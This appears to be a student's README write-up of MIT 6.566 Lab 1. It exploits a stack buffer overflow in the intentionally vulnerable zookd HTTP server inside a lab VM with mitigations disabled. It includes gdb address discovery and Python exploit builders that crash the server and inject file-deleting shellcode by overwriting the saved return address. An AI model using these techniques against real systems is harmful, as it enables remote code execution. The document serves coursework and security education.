





# Cybersecurity Exam Demo: Buffer Overflow Exploitation on Vulnerable x86-64 Systems

## Introduction
In the following demo I will execute a remote code injection attack based on the [_Lab 1 of MIT 6.566: Computer Systems Security_](https://css.csail.mit.edu/6.5660/2026/labs/lab1.html) course. The complete lab is made of 4 parts, we will solve the first 2 in this demo.

The objective of this demo is to exploit a real buffer overflow on a x64 linux machine running a vulnerable http server written in C.

### VM and vulnerable web server
For the setup I relied on the instructions provided by the Lab1 guide, I ran the _6.566-standalone-v26_ virtual machine on UTM on MacOS virtualizing the x64 aarch needed for the lab. Inside the virtual machine I then cloned the official repository from https://github.com/mit-pdos/6.566-lab-2026 which contains:

* the zookd vulnerable server, composed of `http.c` and `zookd.c`
* some files to help the exploitation of the web-server like `exploit-template.py` and `shellcode.S`.
* some scripts to help running the programs with the same addresses and to check if exploitations have been successful.

### Mitigation removals
It is important to note that the server's executable and the virtual machine are set up to remove the security protections that would otherwise make a buffer overflow difficult to exploit. Specifically:

* the `zookd-exstack` program has been compiled with `-fno-stack-protector` to disable the stack canary mitigation and with `-z execstack` to allow the execution of code from the stack.
* ASLR is disabled using the `setarch -R` command

These configurations are implemented from the Lab creators within the `Makefile` and the `clean_env.sh` script to ensure a predictable and exploitable environment for the lab

### Threat Model
In this threat model, the attacker/adversary:
* has the server code available for inspection 
* is aware of the buffer overflow vulnerabilities
* has the capabilities for writing an exploit
* can interact with a vulnerable instance of the software

## Part 0 - Vulnerability discovery
The first step of the lab is to analyze the codebase and find some vulnerable buffers. I started from the `zookd.c - main()` function following the code and the first vulnerable buffer have been found in 
```c
static void process_client(int fd) {
    ...
    char reqpath[4096];
    ...
}
```
which is a buffer placed on the stack. The vulnerability becomes clear once one follows the code into the `http_request_line()` and `url_decode()` functions. 

An attacker can see that the server accepts request lines of up to 8192 bytes (`http.c` line 66), and `url_decode` blindly copies the path part of that netowrk input onto the reqpath buffer without any boundary checks. This allows an adversary to carefully construct constructed an input that exceeds 4096 bytes, resulting in a stack buffer overflow.

## Part 1 - Program Crash
As first step to exploit the discovered buffer overflow vulnerability there is the need to inspect the running program and the stack composition in order to obtain the memory addresses.

As a tool to inspect the program I used `gdb`, a debugger for C/C++ already present on the virtual machine.

I started by launching gdb on the program `zookd-exstack`

```sh
$ ./clean-env.sh gdb ./zookd-exstack
```
and setting a breakpoint after the call of the function of interest
```sh
(gdb) break process_client
Breakpoint 1 at 0x2b37: file zookd.c, line 123.
```

Now the following command is needed to attach gdb to the child processes of the server that will be forked when a connection will be accepted from the server
```sh
(gdb) set follow-fork-mode child
```
and finally we can run our server on port 8080 with
```sh
(gdb) run 8080
```
Next step is to initiate a connection with the help of `curl` command and to inspect the stack frame:
```sh
(gdb) backtrace
#0  process_client (fd=4) at zookd.c:123
#1  0x0000555555556aff in run_server (port=0x7fffffffefa0 "8080") at zookd.c:104
#2  0x00005555555567e7 in main (argc=2, argv=0x7fffffffedb8) at zookd.c:33
```

And more in depth, the stack frame of the process_client function:

```sh
(gdb) info frame
Stack level 0, frame at 0x7fffffffebb0:
 rip = 0x555555556b37 in process_client (zookd.c:123); saved rip = 0x555555556aff
 called by frame at 0x7fffffffec80
 source language c.
 Arglist at 0x7fffffffeba0, args: fd=4
 Locals at 0x7fffffffeba0, Previous frame's sp is 0x7fffffffebb0
 Saved registers:
  rbp at 0x7fffffffeba0, rip at 0x7fffffffeba8
```
and the address of `reqpath[0]`:
```sh
(gdb) print &reqpath
$1 = (char (*)[4096]) 0x7fffffffdb90
```

From this we can gather an important information: the instruction pointer register (`%rip`) is located at memory address `0x7fffffffeba8` and contains the address of the next instruction which is `0x555555556aff`.

A visual of the stack is the following:


### Part 1 - Exploit
The goal of the first exercise is to make the web server crash. To do so, simply overwriting some return address value should be enough to make the server terminate with some unexpected behavior.

The idea of the exploit is to use the information we have on memory addresses to consstruct an HTTP request that will carry the payload, a simple sequence of bytes that will overwrite the buffer `reqpath` and the subsequent saved `rip`.

Part of the exploit is already provided in the repo, my additions were the exact memory addresses and the substitution of the expected path url with a long byte sequences (all A's) as following:

```python
stack_buffer = 0x7fffffffdb90
stack_retaddr = 0x7fffffffeba8

def build_exploit(shellcode: bytes) -> bytes:

    payload = b"A"*(stack_retaddr - stack_buffer)
    req =   b"GET /" + urllib.parse.quote_from_bytes(payload).encode('ascii') + b" HTTP/1.0\r\n\r\n"
    
    return req
```

Then by running the server with `./clean-env.sh ./zookd-exstack 8080` and executing the automated script provided by the MIT for the evaluation we get the expected result!




## Part 2 - Write the shellcode and delete a file
For the second exercise is required to not only overwrite the stack with random bytes, but to inject a shellcode constructed to delete a specific file we know it is present on the web-server. 

The exploit here is similar to the first one since we are trying to exploit the same vulnerability, with the additional shellcode injeted in the payload.
The challenging part of this second exercise is to write the shellcode direclty in x64 ASM instructions. Fortunately the source https://thesquareplanet.com/blog/smashing-the-stack-21st-century/ is a well explained blogpost where the shellcode explained is similar to the one we have to write, except for the syscall we need to use and the registry loading.

Here the steps to generate the new exploit were:
1. Edit `shellcode.S`, and test locally with 
```sh
$ touch /home/student/grades.txt
$ make
$ ./run-shellcode shellcode.bin
```
and to verify that it effectively removed the file `grades.txt`

2. Implement the shellcode into the previous exploit script to take into consideration its position on the stack and the remaining padding space, other than overwrite the return instruction pointer with the start of the shellcode

```python
padding_len = stack_retaddr - stack_buffer - 1 # Subtract 1 because the server expects a '/' at the start of reqpath in http_request_line

def build_exploit(shellcode: bytes) -> bytes:
    target_addr_jmp = stack_buffer + 1

    payload = shellcode
    payload += b"A" * (padding_len - len(shellcode))
    payload += struct.pack("<Q", target_addr_jmp) # returns the 8-byte binary encoding of the 64-bit integer target_addr_jmp
    
    encoded_payload = urllib.parse.quote_from_bytes(payload).encode('ascii')
    
    req = b"GET /" + encoded_payload + b" HTTP/1.0\r\n\r\n"
    
    return req

```

and this is the result after the payload injection in the running process:


Which completes the second exercise of the lab, as shown in the following image where is visible that the file `grades.txt` have been deleted.


Both the complete shellcode and exploit files are available in the code folder in this repository.

## Sources

- MIT 6.566, _Lab 1_ - [css.csail.mit.edu](https://css.csail.mit.edu/6.5660/2026/labs/lab1.html)
- Smashing the stack in the 21st century - [thesquareplanet.com](https://thesquareplanet.com/blog/smashing-the-stack-21st-century/)
- Smashing the stack for fun and profit - [phrack.org](https://phrack.org/issues/49/14#article)
- Stack frame layout on x86_x64 - [eli.thegreenplace.net](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)
- Linux System Call Table for x86_64 - [blog.rchapman.org](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

## AI usage disclosure
Large Language Models (LLMs) were used in the context of this lab to assist in understanding various parts of the server code, correcting minor syntax errors in the Python exploit development process, and improving my understanding of x86-64 assembly language concepts and register usage. Additionally, some portions of the text in this report were revised with the assistance of LLMs to improve clarity, readability, and grammatical correctness.

I declare that all work presented in this report was carried out by me. All ideas, analyses, conclusions, and any remaining errors are my sole responsibility.